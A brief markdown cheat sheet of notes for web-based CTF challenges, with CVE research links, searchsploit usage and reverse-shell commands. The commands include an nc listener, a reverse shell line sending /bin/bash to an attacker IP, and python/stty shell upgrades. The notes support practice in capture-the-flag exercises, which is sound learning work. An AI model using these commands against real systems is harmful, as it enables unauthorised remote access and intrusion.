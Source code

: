 # Notes related to web based CTFs

## Useful Research link

**CVE:**\

- Identification: CVE-YEAR-IDNUMBER
- [Exploit DB](https://www.exploit-db.com/)
- [National Vulnaribility Database](https://nvd.nist.gov/vuln/search)
- [CVE Metre](https://cve.mitre.org/)
- [CVE details](https://cvedetails.com)

## `searchsploit`

```bash
searchsploit <target technology name>
searchsploit fuel cms
```

## Reverse shell

[Highoncoffe Reverse shell guide](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### `nc`

```bash
nc -lnvp <port>                   # in attacker machine
nc <ip> <port> -e /bin/bash     # in compromised machine
# nc 10.8.215.27 1234 -e /bin/bash
```

### `python`

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # in compromised machine after getting nc shell
```

### `stty`

```bash
stty raw -echo               # after backgrounding the nc shell
```

after `fg` type `reset` in the new shell

export TERM=xterm
